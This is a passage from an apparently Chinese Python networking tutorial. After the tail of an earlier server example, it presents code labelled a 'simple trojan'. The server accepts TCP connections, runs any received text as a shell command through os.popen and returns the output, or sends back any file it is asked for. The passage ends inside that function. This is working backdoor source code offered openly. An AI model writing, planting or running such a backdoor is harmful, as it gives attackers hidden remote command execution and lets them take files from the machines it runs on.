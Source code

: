 ```Python
        finally:
             s.close() #关闭服务端


if __name__ == '__main__':
    s = server('',8800)
    s.start()

```

## 一个简单木马

server

```python
# -*- coding: UTF-8 -*-
import socket
import sys
import os

class Server:
    def __init__(self, ip, port):
        self.ip = ip
        self.port = port
        self.buffersize = 10240

    def start(self):
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        try:
            s.bind((self.ip, self.port))
            s.listen(10)
            print("waiting for client")
            while True:
                try:
                    conn, addr = s.accept()
                    print('client connection ' + addr[0] + ":" + str(addr[1]))
                    while True:
                        data = conn.recv(self.buffersize)
                        if not data:
                            break;
                        else:
                            self.executeCommand(conn, data)
                    conn.close()
                except socket.error as e:
                    print(e)
                    conn.close()
        finally:
            s.close()

    def executeCommand(self, tcpCliSock, data):
        try:
            message = data.decode("utf-8")
            if os.path.isfile(message):
                filesize = str(os.path.getsize(message))
                print("filesize: " + filesize)
                tcpCliSock.send(filesize.encode())
                data = tcpCliSock.recv(self.buffersize)
                print("start transmit")
                f = open(message, "rb")
                for line in f:
                    tcpCliSock.send(line)
            else:
                tcpCliSock.send(("0001" + os.popen(message).read()).encode("utf-8"))
```